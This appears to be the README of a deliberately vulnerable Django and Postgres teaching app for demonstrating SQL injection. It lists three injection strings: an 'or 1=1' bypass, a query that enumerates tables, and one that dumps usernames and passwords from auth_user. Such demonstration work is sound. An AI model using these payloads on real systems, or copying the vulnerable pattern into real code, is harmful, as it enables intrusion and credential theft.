 This is an intentionally vulnerable Django application to be used for demonstrating SQL Injection attacks against a Postgres DB. There is also commented code inside the view file showing how the ORM built into Django is able to prevent the SQL injection attacks used in the vulnerable version. 

#Vulnerable Database

Test sql injection statements to use against the vulnerable database are:
  
  ' or 1=1-- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name,'4' as price, table_name as heavy_use  FROM information_schema.tables  WHERE table_schema='public' AND table_type='BASE TABLE' -- - 
  
  '; SELECT '1' as part_id,'2' as description,'3' as name, username as price, password as heavy_use  FROM auth_user  -- - 
  
  Video demonstrating exploit can be found at https://youtu.be/hXX6S-hVQQY
  
  

